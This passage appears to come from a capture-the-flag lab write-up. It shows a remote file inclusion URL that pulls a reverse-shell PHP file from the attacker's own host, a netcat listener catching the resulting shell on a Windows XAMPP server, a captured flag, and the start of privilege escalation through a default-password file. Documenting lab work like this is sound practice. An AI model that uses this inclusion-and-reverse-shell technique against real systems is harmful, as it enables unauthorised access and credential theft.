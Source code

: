 Before opening it in the xampp app, we set up the local listener on the port we wrote in the reverse shell (4242):

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
```

Opening the page in the browser gives us a shell!

> The URL is `http://slort:8080/site/index.php?page=http://192.168.45.205:443/rshell.php`

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.176.53] 50822
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>echo %username%
echo %username%
rupert
```

We find our first flag in `rupert`s Desktop:

```
C:\Users\rupert\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Users\rupert\Desktop

05/04/2022  12:53 AM    <DIR>          .
05/04/2022  12:53 AM    <DIR>          ..
03/09/2024  08:17 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)  28,529,451,008 bytes free

C:\Users\rupert\Desktop>type local.txt
type local.txt
8d64c8790862bc5cd63850e1f42df12e
```

## Privilege Escalation

I have no idea where to even start regarding PE on a windows machine... We'll look around for a bit and then run WinPEAS if nothing else...

We find an interesting file `passwords.txt` in `C:\xampp`:

```
C:\xampp>type passwords.txt
type passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 
```